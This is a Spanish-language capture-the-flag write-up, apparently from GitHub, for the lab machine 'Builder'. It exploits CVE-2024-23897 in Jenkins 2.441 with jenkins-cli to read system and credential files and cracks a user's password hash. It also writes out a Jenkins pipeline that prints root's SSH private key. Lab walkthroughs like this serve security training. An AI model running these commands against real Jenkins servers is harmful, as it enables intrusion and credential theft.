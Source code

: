 #by d4l1

<p align="center"><img src="https://github.com/user-attachments/assets/2e74501b-e6df-4d0b-89e3-1f6bd4194b76"></p>
<h1 align="center">BUILDER</h1>

# ÍNDICE

- [INICIO]
- [ENUMERACION]
- 

# INICIO

Nos encontramos con la máquina Builder, una máquina de dificultad media, en la que encontrarmemos una vulnerabilidad con el CVE-2024-23897 sobre desautentificación de usuarios y leeremos archivos arbitrariosdel sistema para tomar el control. Deberemos xtraer el usuario y contraseña del usuario "Jennifer". Usar esas crendeciales, coger una SSH key y obtener acceso root al sistema

## HABILIDADES REQUERIDAS

- Enumeracion
- Docker

## HABILIDADES QUE APRENDEREMOS

- Explotar CVE-2024-23897
- Estructura de directorio Jenkins
- Criptografia Jenkins

# ENUMERACION

Como siempre haremos un test de conectividad:

![image](https://github.com/user-attachments/assets/904ac6e8-847a-402a-8145-2276c2de6db4)

ttl = 63 (Linux)

Posteriormente escaneo de puertos:

![image](https://github.com/user-attachments/assets/b7f7816e-2c67-4d7c-9ea0-03690942f7c1)

Nos encontramos con:

- Puerto 22 abierto (SSH) Ubuntu
- Puerto 8080 abierto (HTTP) Jetty 10.0.18

![image](https://github.com/user-attachments/assets/5ff9d0bf-a66e-4c5f-91fd-0f04756b071d)

Nos encontramos con una página web con Jenkins 2.441 vamos a explorar.

Vamos a buscar una vulnerabilidad de "Jenkins 2.441"

Nos encontramos con : [CVE-2024-23897-Jenkins-Arbitrary-Read-File-Vulnerability](https://github.com/vulhub/vulhub/tree/master/jenkins/CVE-2024-23897?source=post_page-----143ad7fde347--------------------------------)

Nos explican un poco sobre Jenkins, es un server automatico de código abierto. Ayuda a automatizar partes del software para los desarolladores haciendo testing, construición, implementaciones, etc.

Esta vulnerabilidad nos deja leer archivos del sistema

```
python3 script.py -u http://10.10.11.10:8080/ -f /etc/passwd

```
# INTRODUCCIÓN AL SISTEMA

Una vez que confirmamos que el exploit funciona, vamos a enumerar los elementos de la instalación de Jenkins en la ruta "/proc/self/environ"
```
HOSTNAME=0f52c222a4cc<SNIP>HOME=/var/jenkins_home<SNIP>
```
Leyendo estas variables, encontramos que el directorio home esta en "/var/jenkins_home"

![image](https://github.com/user-attachments/assets/524d632a-4c1e-48bf-af25-593fdbf63169)

Tenemos la user.txt

Si nos damos cuenta la variable "HOSTNAME" no especifica un "builder" o algo similar, los caracteres randomizados usualmente se indica que es un contenedor Docker.

Nuestra mejor opción es crear un docker local de el repositorio oficial de jenkins

```
docker pull jenkins/jenkins:lts-jdk17
docker run -p 8080:8080 --restart=on-failure jenkins/jenkins:lts-jdk17
```

Una vez todo correcto nos conectamos a nuestra instancia "http://127.0.0.1:8080"

![image](https://github.com/user-attachments/assets/94339f1e-b333-463a-a127-5cc38bda9bef)

elegimos que queremos instalarlo pero en normal

![image](https://github.com/user-attachments/assets/489bb7ea-4a21-49e6-b3b7-e9e516f53b1b)

![image](https://github.com/user-attachments/assets/a53c8408-7f41-49ae-a913-1086ccf722cf)

En la siguiente pagina tenemos la instancia de la configuracion hacemos que no ahora y nos salimos

```
docker ps -a
docker start 63c
docker exec -it 63c bash
```

Nos conectamos dentro y buscamos rutas

```
cd
ls
ls users
cat users/users.xml
```

Hemos encontrado la ruta del directorio de nuestros usuarios, dentro de ella encontramos una rchivo "config.xml" 

```
cat users/amra_5955286986173787020/config.xml
```

Ahora que sabemos que tenemos la disponibilidad de extraer una contraseña y los usuarios vamo a hacer lo mismo pero arbitrariamente

```
java -jar jenkins-cli.jar -noCertificateCheck -s 'http://10.129.230.220:8080'
help "@/var/jenkins_home/users/users.xml"
```

![image](https://github.com/user-attachments/assets/d080d597-eca9-4bff-996e-551d5cefd279)

Vemos que este archivo no existe, o quizas el comando "help" no extrae las dos primeras lineas vamos a utilizar el comando "connect-node"

![image](https://github.com/user-attachments/assets/79a2f97f-1eaf-4617-8f9b-906fa21d3cd3)

Lo tenemos

Ahora nos vamos a la configuracion de el usaurio "jennifer"

![image](https://github.com/user-attachments/assets/4a80a176-9b41-4c33-b352-b7c76b80e002)

tenemos el hash vamos a cogerlo y con john intentarlo crackear

![image](https://github.com/user-attachments/assets/0278f55b-8215-4466-88d2-6ca656bad292)

Tenemos usuario y contraseña jennifer:pricess

Vamos a meternos a la página web con esos credenciales.

![image](https://github.com/user-attachments/assets/349ae4d8-4f96-42c1-8887-892e34b9e0ec)

# ESCALA DE PRIVILEGIOS

Viendo como funciona Jenkis, nosotros podemos coger credenciales guardas con el nombre root.

![image](https://github.com/user-attachments/assets/d365284c-c304-4d96-b858-938e629abfa9)

Esta credencial es una key de ssh, tenemos que mirar plugins o alguno instalado para cogerlo 

![image](https://github.com/user-attachments/assets/b52113d5-01b9-4729-beec-9b5578466d07)

Esto hace que craftene comandos para poder usar SSH. VAmos a chekear si la ssh es valida del usuario root.

Vamos a crear un nuevo item "pipeline"

![image](https://github.com/user-attachments/assets/fc80000e-d8ab-4a42-ba4d-ad861b15e999)

Dentro de la sección ponemos que lea la key de ssh
```
pipeline {
agent any
stages {
stage('SSH') {
steps {
script {
sshagent(credentials: ['1']) {
sh 'ssh -o StrictHostKeyChecking=no root@10.129.230.220
"cat /root/.ssh/id_rsa"'
}
}
}
}
}
}
```

![image](https://github.com/user-attachments/assets/47ae12c5-f8bd-4c43-955a-c77003dba684)

Lo guardamos y pulsamos sobre "Build Now" y vemos el output de la consola

![image](https://github.com/user-attachments/assets/46540f00-1f7c-4da1-9d7e-c038dc89b232)

La tenemos 

![image](https://github.com/user-attachments/assets/3dbc24b1-82bf-4006-a7fb-59869be4dd2c)

Estamos dentro GG

![image](https://github.com/user-attachments/assets/7fcb6e26-61bd-4df0-84fa-3d9c43b5aa44)



